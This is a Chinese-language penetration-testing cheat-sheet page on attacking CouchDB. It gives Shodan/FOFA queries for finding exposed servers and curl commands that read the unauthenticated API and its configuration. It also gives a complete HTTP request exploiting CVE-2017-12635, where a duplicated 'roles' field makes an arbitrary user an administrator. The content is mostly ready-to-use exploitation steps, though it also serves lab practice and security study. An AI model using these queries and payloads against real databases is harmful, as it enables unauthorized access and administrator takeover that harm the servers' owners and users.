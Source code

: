 
# 数据库

**相关工具**
- [SafeGroceryStore/MDUT](https://github.com/SafeGroceryStore/MDUT)

## CouchDB

Apache CouchDB 是一个开源数据库，专注于易用性和成为"完全拥抱 web 的数据库"。它是一个使用JSON作为存储格式，JavaScript 作为查询语言，MapReduce 和 HTTP 作为 API 的 NoSQL 数据库。应用广泛，如 BBC 用在其动态内容展示平台，Credit Suisse 用在其内部的商品部门的市场框架，Meebo，用在其社交平台（web 和应用程序）.

> shodan : "product:CouchDB"
> fofa ： app="APACHE-CouchDB"

**未授权访问漏洞**
- 概述

    默认会在 5984 端口开放 Restful 的 API 接口，如果使用 SSL 的话就会监听在 6984 端口，用于数据库的管理功能。其 HTTP Server 默认开启时没有进行验证，而且绑定在 0.0.0.0，所有用户均可通过 API 访问导致未授权访问。

    在官方配置文档中对 HTTP Server 的配置有 WWW-Authenticate：Set this option to trigger basic-auth popup on unauthorized requests，但是很多用户都没有这么配置，导致漏洞产生。

- 利用

    `http://[ip]:5984/_utils/`

    `curl http://[ip]:5984`

    `curl http://[ip]:5984/_config`

**CVE-2017-12635 垂直权限绕过漏洞**
- 概述

    CVE-2017-12635 是由于 Erlang 和 JavaScript 对 JSON 解析方式的不同，导致语句执行产生差异性导致的。这个漏洞可以让任意用户创建管理员，属于垂直权限绕过漏洞。

- 影响版本
    - 小于 1.7.0 以及 小于 2.1.1

- POC | Payload | exp

    来源 : [Couchdb 垂直权限绕过漏洞（CVE-2017-12635）](https://github.com/vulhub/vulhub/blob/master/couchdb/CVE-2017-12635/README.md)
    ```
    PUT /_users/org.couchdb.user:vulhub HTTP/1.1
    Host: your-ip:5984
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/json
    Content-Length: 108

    {
    "type": "user",
    "name": "vulhub",
    "roles": ["_admin"],
    "roles": [],
    "password": "vulhub"
    }
    ```
